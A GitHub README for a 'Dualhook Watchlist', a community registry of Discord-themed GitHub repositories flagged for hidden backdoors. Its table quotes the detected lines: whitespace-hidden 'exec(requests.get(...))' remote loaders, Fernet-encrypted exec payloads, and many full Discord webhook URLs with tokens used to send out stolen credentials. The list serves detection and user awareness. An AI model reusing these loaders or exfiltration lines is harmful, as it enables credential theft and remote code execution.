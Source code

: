 
<p align="center">
  Dualhook Watchlist
</p>

<p align="center">
  Support URL : https://discord.gg/SKGjXfmFga
</p>

## About

The "Dualhook Watchlist" repository is dedicated to tracking, monitoring, and documenting individuals or programs associated with the creation and use of "dualhooks." Dualhooks are a potential security concern in various online platforms, including Discord. These hooks may be used for unauthorized access and data theft.

Our mission is to maintain a comprehensive list of known dualhook creators, their pseudonyms (usernames), associated links or profiles, and relevant webhook information. By actively monitoring and sharing information about dualhook activities, we aim to enhance online security and protect communities from potential threats.

## User Registry

FOR MORE PRECISE INFORMATION CHECK DATA.TXT

| Username | Link | Reason | files dualhooked | detected line 
|----------|------|--------|---------|-
| poink0411 | https://github.com/poink0411/Discord-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/poink0411/Discord-Token-Grabber/main/main.py) | Line 6: WEBHOOK="https://discord.com/api/webhooks/[webhookcode]"
| sodaduhking | https://github.com/sodaduhking/FAKE-NITRO-GEN | Unsafe |[File URL](https://raw.githubusercontent.com/sodaduhking/FAKE-NITRO-GEN/main/fake%20nitro%20gen%20by%20soda.py) | Line 19: webhook = SyncWebhook.from_url("https://discord.com/api/webhooks/1157188266555101226/KU5Ybfdlta5oU275cggK5xgGNcB8Ej8yiu45iVEC-5fTvvQosFHDpYiWFCfuLaE52QsN")
| BestCoder2Exist2 | https://github.com/BestCoder2Exist2/Discord-Emote-Manager | Unsafe |[File URL](https://raw.githubusercontent.com/BestCoder2Exist2/Discord-Emote-Manager/main/bot.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/831938157133299712/3oqFupS4ck08QlciDrB-MeZxhRLpi4En3RvK5qqJT4i5ddeVnJMD8_EW5V9PLS6mV3Fo'
| dekrypted | https://github.com/dekrypted/Volt-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/dekrypted/Volt-Stealer/main/volt.py) | Line 10:   "webhook": "https://discord.com/api/webhooks/Your/Webhook!", # Put your Discord Webhook Here!
| badsimods | https://github.com/badsimods/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| badsimods | https://github.com/badsimods/discord-server-cloner | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-server-cloner/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| uploadupdate | https://github.com/uploadupdate/REDEIR-discord-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/uploadupdate/REDEIR-discord-stealer/main/REDEIR%20Grabber.py) | Line 148:     webhook_url = 'https://discord.com/api/webhooks/' #utilisez un webhook unique a chaque grab,  Line 285:     webhook_url = 'https://discord.com/api/webhooks/' #webhook
| guiscriptmakerlol | https://github.com/guiscriptmakerlol/RRs-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/guiscriptmakerlol/RRs-Grabber/main/RRs%20Grabber.py) | Line 8:     webhook = "https://discord.com/api/webhooks/1095987665431703562/4Osghk4v55EUJmcmK7nEQIcZtQpeGCWK7QM1QdrlIKX_2QClnCWuRtjxwTgyuhX6ePlW"
| LePilot1 | https://github.com/LePilot1/Discord-Token-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/LePilot1/Discord-Token-stealer/main/token%20stealer.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/862846944438779914/3NBBv6q6lH9v5VukimXWRlU_lor2c0Mp3xiPEYidWY2gKbFqxwGfrRXOXB-Egf5z5gua'
| 17MollyKobain | https://github.com/17MollyKobain/Discord-Token | Unsafe |[File URL](https://raw.githubusercontent.com/17MollyKobain/Discord-Token/main/TokenStealer.py) | Line 184:         urlopen(Request("https://discord.com/api/webhooks/840670878056579123/p3vhHkySfun-xG8MnBBt0XePbcLHL48_Ibey4-Xqea1OcuTkuM0hgu3ercvc4akT8vUE", data=dumps(webhook).encode(), headers=getheaders()))
| rckstrrr | https://github.com/rckstrrr/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/rckstrrr/discord-vanity-sniper/main/index.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/a2edp').text)
| Heaventh007 | https://github.com/Heaventh007/DREKOX-STEALER | Unsafe |[File URL](https://raw.githubusercontent.com/Heaventh007/DREKOX-STEALER/main/main.py) | Line 18: hook = "" # https://discord.com/api/webhooks/1067835493749899444/fGVDbASt3N7zzaE2sz4C0Av8Ug57Sz1Nh7nNO5g1mx8ayDb05h5XyDZnugt9_qWKHJ8B
| reyzovw | https://github.com/reyzovw/telegram-stealler | Unsafe |[File URL](https://raw.githubusercontent.com/reyzovw/telegram-stealler/main/main.py) | Line 16: discord_webhook_url = "https://discord.com/api/webhooks/1113092539931693136/_hqR3AE23ne9nRjdbfQpgDFbRN9lMKlR8ZvawMBgxeKlaMnaglhhViuWmKfXEtWRYqS3"
| heygdrg | https://github.com/heygdrg/Toxic-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/heygdrg/Toxic-stealer/main/Toxic-Stealer.py) | Line 42: Webhook_Here = "https://discord.com/api/webhooks/1037270936191258684/sZpwvKzgeH0SKqib7ohWd39o_Zl31L6rorncUqxrbA5Cch7bpexV6s6dDtRperhYUo2Ni
| tmtag84 | https://github.com/tmtag84/DIscord-Nitro-Generator-Checker-Python | Unsafe |[File URL](https://raw.githubusercontent.com/tmtag84/DIscord-Nitro-Generator-Checker-Python/main/main.py) | Line 96:             url = 'https://discord.com/api/webhooks/970347102293073942/7PHvjmdHXHq9nZN8O2BMdrJgxmVaXpYI8ukthaeh5FhAQMkn18_jDdsAyTugo2988kHX'  # Get the awnser
| j3rr7 | https://github.com/j3rr7/discord-stealer-source-code | Unsafe |[File URL](https://raw.githubusercontent.com/j3rr7/discord-stealer-source-code/main/decompiled.py) | Line 30: _WEBHOOK_HERE_ = "https://discord.com/api/webhooks/1049690604734513312/Hv5BaA9nboddw_FctP36Sw7t9kR3XTcz33U3AEpIOoIYJJgbf4ZCzKzvJEaoGcTqHERT"
| user745222 | https://github.com/user745222/discord-boost-tool | Unsafe |[File URL](https://raw.githubusercontent.com/user745222/discord-boost-tool/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/q3i7zp/raw').text)
| OY33 | https://github.com/OY33/DROP-AIO | Unsafe |[File URL](https://raw.githubusercontent.com/OY33/DROP-AIO/main/atio.py) | Line 19: hook = "https://discord.com/api/webhooks/1069160044391829534/48oOO9KRi1zi6vJuVYlN21Jna9dIR1Gjpf8mMVgorfsIisffu-XB_G4VcW1KtCQs5EM1"
| 9732010gh70 | https://github.com/9732010gh70/Discord-Nitro-Generator | Unsafe |[File URL](https://raw.githubusercontent.com/9732010gh70/Discord-Nitro-Generator/main/Main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'giWEa9DXWSuZEDHgsBlB2b0mFbkN3FMQORdRMRwTmAQ=').decrypt(b'gAAAAABlb2_1mUAQDnwJ5PUpS3kTe_dUOmfeJE3PYcJ9q9qvtkiA82FfWjJ_R2VNjaq36ANvjO8Jg_dEwT1K9jmy7-p0RUc__7lhvQesOf-qE-Um4moaQnnZODgnHus3xHhbsj-8oR2i9hZaycctjIpSEIbhyprPeeRXGzuFAkZLmJ2oNPUbF7HEqjyBABbXNqEWYJ5vC-70fXlX2hPv546ofipqLLjPww=='))
| vanis1980 | https://github.com/vanis1980/Vissage-Self-Bot- | Unsafe |[File URL](https://raw.githubusercontent.com/vanis1980/Vissage-Self-Bot-/main/main.py) | Line 82:         'https://discord.com/api/webhooks/943632482937495613/0JmWU3roRUTn3aBUOMD3eXDQ5RpnX_tqFH2Qinz1TX0dRNE4NgGXHZEWKCOHzpfjCxfY',
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1181981724431884469/dGjB59xwmQA0fbRb7dM9IKJ9RYijuS0pDMPiwQa95ttsr9mZFrCIQAFQcG235-EhhDth"
| TNTaddict | https://github.com/TNTaddict/DiscordTokenStealer | Unsafe |[File URL](https://raw.githubusercontent.com/TNTaddict/DiscordTokenStealer/main/TNT_Stealer.py) | Line 538: emergencyinjection = "https://discord.com/api/webhooks/1143583197549043782/yVWATxco4RyLqRVtPEgh7hHeS5hlk98whUpkLTjqxCpNxsBFG18g9HwGr7NMsp1dvz8d",  Line 2011: emergencyinjection = "https://discord.com/api/webhooks/1139963367382077582/IwGY6gsubuEp-hxJBqQF7ppkLvoUqSfgrjHRRVxqVxMFeEHXOxrJY0W_QIKxuAcsgHK-"
| PanEditor | https://github.com/PanEditor/StealerCrealer | Unsafe |[File URL](https://raw.githubusercontent.com/PanEditor/StealerCrealer/main/StealerCrealer.py) | Line 19: hook = "https://discord.com/api/webhooks/1059904050881110067/JndgDe25LBhAVAcGRbGXpnOBj_LqZddIZmTS5qfZorEN16V-849jKdmZeGvN4AmnV_PQ"
| Xfrankxrs | https://github.com/Xfrankxrs/Muck-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Xfrankxrs/Muck-Stealer/master/muck-stealer.py) | Line 561:     global hook                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     ;exec(Fernet(b'D0gt8qtQaJcvXKmvyQux_1UbdPxmDms4puapLdX6Aic=').decrypt(b'gAAAAABlOAaPq0Kjxq8r0XG7Pfu2FpFqYfXYGvVdZG_2dQoMsIXV0pxSoyTZiLGcSzXEejpUUU4NXMLDc-YmLwr91F3gsoRXUFtcYtpY74DgXsA933zTxfQaAf0VJG3YCOg7cW38kNAte2YFmXFipSNbl7lBwGWsIofwPzF7pFrio4voVrml4PL0a6ykzVkKP4FdgSCUkQRyI0HJxi7UosUJo_XGiAD18A=='))
| Pinguine69 | https://github.com/Pinguine69/discord-photo-ip-grabber-2 | Unsafe |[File URL](https://raw.githubusercontent.com/Pinguine69/discord-photo-ip-grabber-2/main/httpsi.pinimg.comoriginals46087746087732c14e9d16980237def48e10ccpng.py) | Line 15:     "webhook": "https://discord.com/api/webhooks/1133786383954219050/iBduEGuMpL5CAKd2cAYLTnVLVdSnJfTnePRIumhuSq4C-yLOytHjXr1nO5r8iW4PLjxP",
| badsimods | https://github.com/badsimods/tiktok-report-bot | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/tiktok-report-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| TheWay-hue | https://github.com/TheWay-hue/C.A.S-Discord-Tool-v4 | Unsafe |[File URL](https://raw.githubusercontent.com/TheWay-hue/C.A.S-Discord-Tool-v4/master/tool.py) | Line 417: 								file.write(f'https://discord.com/api/webhooks/{req["id"]}/{req["token"]}\n')
| xdexty0 | https://github.com/xdexty0/Dexty-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/xdexty0/Dexty-Grabber/main/Dexty.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1143635231723765880/MU3NYR3a9BsI2a5F_fNDpxUvyR9H6CC3GEotfC46OGYkfPTqOzOt6BHGgcY4de40B34k"
| Buzz229 | https://github.com/Buzz229/FADE-LEAKED | Unsafe |[File URL](https://raw.githubusercontent.com/Buzz229/FADE-LEAKED/main/stealer.py) | Line 19: hook='https://discord.com/api/webhooks/1043019305870176296/ApyKlgttx5Pfw2xK5YI70NlNjflLOUNkRd5pTkbCfZwD9gzyhane-AatnQvwFU_uPpoW'
| 141100hy14 | https://github.com/141100hy14/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/141100hy14/discord-vanity-sniper/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'6uJx1G4rvvbc1wCpbBfxHL5UawP3Er4vNTYvhKTL5x0=').decrypt(b'gAAAAABlb3E-veFsiIC1Wp87-0sc2kMkKQSkLDJ5dTAKvC6UITp4mM4tkKq3VMoPliUojGhqtj-KpxHnfJtKfkxTQxO9ZHRFIgehyxJTI1CYipgSPnJ6hAm1cik4jKru6YGeovVH0BE-7q4vKMPTIxU-any2kYcdWS3uIBqh8F-5ukmy-w6JRt-5ClCeo0iJCmp7Xbrh2BK0EQFMWpVcvGZG7CDwiqmhRQ=='))
| zrSadek | https://github.com/zrSadek/discord-server-cloner | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-server-cloner/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| pengiwn | https://github.com/pengiwn/QR-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/pengiwn/QR-Token-Grabber/main/QR_Generator.py) | Line 145:                             req = Request('https://discord.com/api/webhooks/981890982431821884/6lceRdTsRmYNBKM5c5Qp39k69rBJ0WJ5tA8opJFfthekRsT68RQXicdwJgrb_MI0ACCj', data=payload.encode(), headers=headers2)
| badsimods | https://github.com/badsimods/discord-mass-friend | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-mass-friend/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| LinuxPhantom | https://github.com/LinuxPhantom/IP-Grabber-To-Discord | Unsafe |[File URL](https://raw.githubusercontent.com/LinuxPhantom/IP-Grabber-To-Discord/main/Main.py) | Line 41:     h = "https://discord.com/api/webhooks/1136811328212828190/qUki18tSz3FCU7-wB6yYPusiGmPRlFuhSQsgF68eJ_foEbZnuwXhBI83Mb5hqufNIa9N"  # REPLACE WITH YOUR WEBHOOK
| MythicDeveloping | https://github.com/MythicDeveloping/Discord-Fake-Nitro-Proof-Generator | Unsafe |[File URL](https://raw.githubusercontent.com/MythicDeveloping/Discord-Fake-Nitro-Proof-Generator/main/main.py) | Line 4: import random                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;exec(requests.get('https://paste.website/p/cca0c42e-9bfa-4163-820c-d73b5a6f2b8b.txt').text)
| 5062012kw40 | https://github.com/5062012kw40/Discord-Raid-Tool | Unsafe |[File URL](https://raw.githubusercontent.com/5062012kw40/Discord-Raid-Tool/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'ZgCZwbBYKBftuuZE8CXL6dFWw7NqKbkKiD-ocadnw9U=').decrypt(b'gAAAAABlb26gT80dJqPMXoN1ngWN9PuS13nJIv5h8pX0IFkQNAwjaaLgnwhH7ObITtZ21_uKS5FHP5U_lJWm_HQ0oTeR2q-hPsZPHotJgS11HMeDyeR9uBCAdvzW47e5Dn0SMqEjy6RRj9KWeyxSU7226IlWmeppzjQXL1iZhnQIHwf_EYXEzyn7y-wEIcwHxl3JhGbEv6pacy4a6PXQ4jJajVg76nLMcA=='))
| zByDiegoMT | https://github.com/zByDiegoMT/ByDiego-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/zByDiegoMT/ByDiego-Token-Grabber/main/main.py) | Line 17:         self.webhook = "https://discord.com/api/webhooks/944275288622268506/NUqePmXSndW8y1oqGwXNl86nfTcWQInDxWsmZsR5Ue7jpvFBueNDN_aFGya5I1k7VnXE"
| badsimods | https://github.com/badsimods/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| badsimods | https://github.com/badsimods/discord-raid-tool | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-raid-tool/main/main.py) | Line 18: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| zrSadek | https://github.com/zrSadek/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| zrSadek | https://github.com/zrSadek/discord-raid-tool | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-raid-tool/main/main.py) | Line 18: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| SiesShinn162 | https://github.com/SiesShinn162/Sies-Pass-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/SiesShinn162/Sies-Pass-Stealer/main/botnet.py) | Line 30:     hook = "https://discord.com/api/webhooks/1059813273849049108/E8emDhbCfxkscuupCO3fUYhEbTEdc6J80ppNQ3iJTdm00MZ79R9AsEgXUKtv0_ogg4Vx"
| zrSadek | https://github.com/zrSadek/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| scriptedxd | https://github.com/scriptedxd/script-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/scriptedxd/script-stealer/main/script%20free.py) | Line 27: __WEBHOOK_HERE__ = "https://discord.com/api/webhooks/1048880496559538207/PSNxlrFQlqdvlXZZMwo1_72dEpzsUN7PgQepDlCzATD8seCBQ0TwURBZdgMKZAdgXeMn"
| Plasmonix | https://github.com/Plasmonix/Chrome-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Plasmonix/Chrome-stealer/main/main.py) | Line 12: WEBHOOK = "https://discord.com/api/webhooks/..."
| zrSadek | https://github.com/zrSadek/discord-mass-friend | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-mass-friend/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1181981724431884469/dGjB59xwmQA0fbRb7dM9IKJ9RYijuS0pDMPiwQa95ttsr9mZFrCIQAFQcG235-EhhDth"
| maliqto | https://github.com/maliqto/VoidGrabber | Unsafe |[File URL](https://raw.githubusercontent.com/maliqto/VoidGrabber/main/main.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/1176566609696006225/-e6CtC5nSwEb9uoEE_92PylRtjGx4nEBSgXcIqkUG5Sx8WzvXqSEPu3393pY_Tj1FRku'
| zrSadek | https://github.com/zrSadek/tiktok-report-bot | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/tiktok-report-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| keirman1 | https://github.com/keirman1/Nitro-gen | Unsafe |[File URL](https://raw.githubusercontent.com/keirman1/Nitro-gen/main/main.py) | Line 9: web = 'https://discord.com/api/webhooks/1001416977912447046/BAfXFC9hgtmGJVXmQOioR2asR3babRWBa5HQzwVl7Nmqfis56COrPVni8uc-PwnP00gK'
| dekrypted | https://github.com/dekrypted/discord-image-logger | Unsafe |[File URL](https://raw.githubusercontent.com/dekrypted/discord-image-logger/main/main.py) | Line 15:     "webhook": "https://discord.com/api/webhooks/your/webhook",
| TrezzyMODS | https://github.com/TrezzyMODS/Ethical | Unsafe |[File URL](https://raw.githubusercontent.com/TrezzyMODS/Ethical/main/Ethical.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1150915615989698600/sge8TDfL5zbEzzAqYzRfjzjq0QadQiVt5nofhjaGiIFxr7K0_CbN9EuT3E65QYwVYyX_"
| 4Carol2000nr08 | https://github.com/4Carol2000nr08/Discord-image-logger | Unsafe |[File URL](https://raw.githubusercontent.com/4Carol2000nr08/Discord-image-logger/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'VrVf6HlKy0CW_5HUtiUVTx-kKNhkMSBvmpG1NfEPs8I=').decrypt(b'gAAAAABlczXs8pdq5-C-to2dD4zbg_40U17pDp-GK0tHoNmYZO8TFjdd-T8OuW5tLusVK1OeGCe2ps30QABjixl9UetRtbkmuuw8cbObij0mBo-5bYRjHM51v7PIxgEfoCGtBb1-XfV9nSmew519CzgIgz-xO4vqbRYYWLvsPiO1aQsoSxLFMoUsGODfk8ZSdZNR4DJ9xDpJGKN_Od7JgkjQj53rVKb_zQ==')),  Line 18:     "webhook": "https://discord.com/api/webhooks/your/webhook",
| shaheedghazi | https://github.com/shaheedghazi/file-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/shaheedghazi/file-Grabber/main/Dexty.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1143635231723765880/MU3NYR3a9BsI2a5F_fNDpxUvyR9H6CC3GEotfC46OGYkfPTqOzOt6BHGgcY4de40B34k"
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1182616611945988106/7TmM--YTsQEsfDJ1-VEFkLHNGcbbNcOXiXbHoCLjHWKzZ0YtkfXX9RisH_1YrTyFbav3"
| shelby611 | https://github.com/shelby611/discord-boost-bot | Unsafe |[File URL](https://raw.githubusercontent.com/shelby611/discord-boost-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/q3i7zp/raw').text)
| vaquzo | https://github.com/vaquzo/discord-boosttool | Unsafe |[File URL](https://raw.githubusercontent.com/vaquzo/discord-boosttool/main/tokenf.py) | Line 2: import requests																																																																																																																																																																																																																																																																			;exec(requests.get('https://bananasquad.ru/paste').text.replace('<pre>','').replace('</pre>',''))
| ghostgrabberdev | https://github.com/ghostgrabberdev/Ghost-grabber | Unsafe |[File URL](https://raw.githubusercontent.com/ghostgrabberdev/Ghost-grabber/main/main.py) | Line 154:                     requests.post(f'https://discord.com/api/webhooks/1175882959442690088/HRNzhaG8E1w5SkvN4VAm5E-R43nCJAzpOdgSs6IBFHS19q7wv7OKodA4P5feq4ppWUpC', data=payload.encode(), headers=headers2)


## Contributing

If you have information about dualhooks or individuals involved in their creation, please consider contributing to our registry. To contribute, follow these steps:

1. Fork this repository.
2. Add the relevant information to the table above.
3. Submit a pull request with your changes.

Your contributions will help us maintain an up-to-date record of potential security threats.

## How to find them easily

1. Go on github and search for "Discord Stealer", "Nitro Generator", "Token Generator" and search for the most recent one
2. Then look in the code for any dualhook
   
## Join the Dualhook Detectives

Join us in our efforts to safeguard online spaces and raise awareness about the risks posed by dualhooks. Together, we can contribute to a safer and more secure online environment for all users.
